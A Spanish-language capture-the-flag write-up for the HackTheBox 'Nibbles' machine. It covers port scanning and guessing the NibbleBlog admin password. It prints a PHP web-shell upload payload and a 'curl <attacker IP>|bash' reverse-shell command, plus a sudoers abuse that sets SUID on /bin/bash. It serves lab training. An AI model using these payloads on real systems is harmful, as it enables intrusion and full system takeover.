 ```yaml
---
title: HackTheBox - Nibbles
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'File Upload', 'Abuso de Sudoers']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nibbles/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nibbles Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.
Ténicas usadas: **File Upload, Abuso de Sudoers**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Nibbles`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Nibbles/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Nibbles/02-versions.png)

c. Al ver el código fuente de la página web inicial, veremos una directorio por el cual podremos empezar a fuzzear

![](/assets/images/HTB/Easy/Nibbles/03-leak.png)


* El sitio web está levantado con **`NibbleBlog`** y podemos ver su código fuente en **`Github`** [NibbleBlog](https://github.com/dignajar/nibbleblog). Con esto podemos evitarnos realizar fuzzing.


* El directorio **`content`** contiene el directorio **`/private`** en el cual existe un fichero **`users.xml`**

    ```xml
    <user username="admin">
    <SNIP>
    ```

d. En el repositorio vemos un fichero **`admin.php`**, que es un panel de login, pero, al no poseer la contraseña del usuario **admin**, probamos con palabras comunes

* **`admin:admin`, `admin:password`, `admin:nibbles`**

e. Una vez autenticados, iremos al apartado de **`Plugins -> My Image`**. Intentamos subir un fichero **`php`** con el contenido **`<?php system($_GET["cmd"]); ?>`**

* Como nos fijamos, no existe ningun tipo de sanitización por lo que la 'imagen' se subió normalmente, para verla nos iremos a la siguiente ruta **`http://<IP>/nibbleblog/content/private/plugins/my_image/`**.

    ![](/assets/images/HTB/Easy/Nibbles/05-file_upload.png)

* Una vez garantizada la ejecución remota de comandos, entablamos una reverse shell.

    * **URL:** **`http://<IP Nibbles>/nibbleblog/content/private/plugins/my_image/image.php?cmd=curl%20http://<tun0 IP>:<Port>|bash`**

    ![](/assets/images/HTB/Easy/Nibbles/06-reverse.png)

### Escalada de Privilegios 💹

a. Listamos privilegios de tipos sudoers, que podamos tener

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

* Podemos ejecutar como root el archivo **`monitor.sh`**, sin embargo, este no existe, por lo que, al estar en nuestro directorio personal, lo que haremos es crear los directorios y el fichero con un script que otorgue el permiso **`SUID`** a la **`bash`**

    ```bash
    nibbler@Nibbles:/home/nibbler$ tree -fas
    .
    |-- [       4096]  ./personal
    |   `-- [       4096]  ./personal/stuff
    |       `-- [         18]  ./personal/stuff/monitor.sh

    nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    chmod +s /bin/bash
    nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
    ```

b. Ahora ejecutamos el script como **root**

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
```

> Con esto hemos vulnerado la `Máquina Nibbles` 🎉
{: .prompt-tip }
